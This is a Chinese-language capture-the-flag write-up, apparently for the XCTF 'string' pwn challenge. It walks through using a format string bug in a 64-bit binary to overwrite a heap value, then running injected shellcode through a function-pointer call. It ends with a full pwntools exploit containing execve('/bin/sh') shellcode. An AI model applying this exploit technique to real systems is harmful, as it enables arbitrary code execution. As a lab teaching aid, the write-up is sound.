 shellcode,format string bug

## **[环境]**

Ubuntu

## **[工具]**

gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 首先请自行理解一下程序的逻辑。
- 查看有哪些保护机制开启。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/string/pic/1.png)- 审计 sub_400CA6 函数的时候，发现一个比较可疑的地方

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/string/pic/2.png)- 这句话的意思是：把v1强制转化成一个函数指针，然后调用这个函数。也就是说如果我们shellcode写到这个位置，就能直接调用。shellcode可以通过上面的read函数来写进去。

- 那么如何才能让程序的执行流到达这个位置呢。需要让`*a1 == a1[1]`。a1是作为参数传进来的，通过回溯，我们发现 a1 就是在 main 函数中 定义的v3，是一个指向堆块的指针。其中`v3[0]=68`,`v3[1]=85`。也就是说当`v3[0]==v3[1]`时就能满足`*a1 == a1[1]`。可如何才能修改成功呢？

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/string/pic/3.png)- 上图可知，有一个格式化字符串漏洞，可以进行任意地址写。接下来我们需要知道v3[0]的地址。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/string/pic/4.png)- 其实输出的 secret[0] 就是 我们需要的地址。

思路：现在 地址有了，利用格式化字符串 将 `*a1 == a1[1]`，成功进入脆弱点，写入shellcode。

- 这道题有一点需要注意，这是一个64位的程序，在64位下，函数前6个参数依次保存在rdi、rsi、rdx、rcx、r8和r9寄存器中（也就是说，若使用”x$”，当1<=x<=6时，指向的应该依次是上述这6个寄存器中保存的数值），而从第7个参数开始，依然会保存在栈中。故若使用”x$”，则从x=7开始，我们就可以指向栈中数据了。
- 在输入address的时候，输入1234，并在 `printf(&format, &format)`前下一个断点，查看我们输入的地址在栈中的位置：

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/string/pic/5.png)-完成exp如下：

```python
from pwn import *
p = process("./string")
p.recvuntil("secret[0] is ") 
addr = int(p.recvuntil("\n")[:-1],16) 
log.success("addr:"+hex(addr))
p.sendlineafter("be:\n","GG") 
p.sendlineafter("up?:\n","east") 
p.sendlineafter("leave(0)?:\n","1")
p.sendlineafter("address\'\n", str(addr))
# 输出85个字节 就能把位于7$上的地址的内容改写位85
p.sendlineafter("is:\n", "%85c%7$n")
# shellcode = asm(shellcraft.sh())
shellcode ="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05" 
p.sendlineafter("SPELL\n",shellcode) 
sleep(0.1) 
p.interactive()
```
